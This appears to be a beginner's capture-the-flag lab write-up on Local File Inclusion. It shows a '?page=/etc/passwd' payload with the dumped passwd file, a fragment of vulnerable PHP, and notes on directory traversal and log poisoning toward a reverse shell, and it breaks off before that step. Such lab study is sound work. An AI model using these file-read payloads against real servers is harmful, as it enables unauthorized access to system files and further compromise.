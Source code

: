 # LFI - Local File Inclusion


### what is LFI??

- Local file inclusion is a vlulnerability an attacker can exploit to include and read files they are not supposed to leading to them discovering more ways to harm the system.

- This is another issue blinding trusting user input. This attack is mostly performed on php backends as they have the include statement. This include statement can be fed very malicious code which it will also execute.

-This could resut in..
	1. Denial of service attack.	
	2. Remote code execution on the server.
	3. Sensitive Information Disclosure.

### Task 1 - Local File Inclusion

```
export IP=10.10.195.25
```

- Accessed the web server on the ip and did my first local file inclusion exploit.

- Added this query at the end of the url of the vulnerable webapp 
```
?page=home.html 

?page=/etc/passwd
```

- /etc/passwd file as read from the server
```
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash

```

- Here is a sample of a vulnerable php code that allows file inclusion
```php
<?php 
	$local_file = $_REQUEST["page"]
?>
```

### [Task 2] Local File Inclusion Using Directory Traversal

- directory traversal also called path traversal or backtracking is accessing files on the servers system that is not intended to be seen by end user. This is done by manipulating variables used to reference the files. [futher-reading](https://owasp.org/www-community/attacks/Path_Traversal)

- This path traversal just means using the dot-dot-slash linux path traversal to try to locate further out of the webroot directory.


### [Task 3] Reaching RCE using LFI and log poisoning

- Okay even the heading sounds not easy! LOL.

- Log poisoning from what i'm reading online is trying to get a reverse shell on the server by injecting malicious code into the server logs through lfi. [further-reading](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

- The room guide asks to fire up burpsuite and since i havent used it before, i'll fire up python for this task.
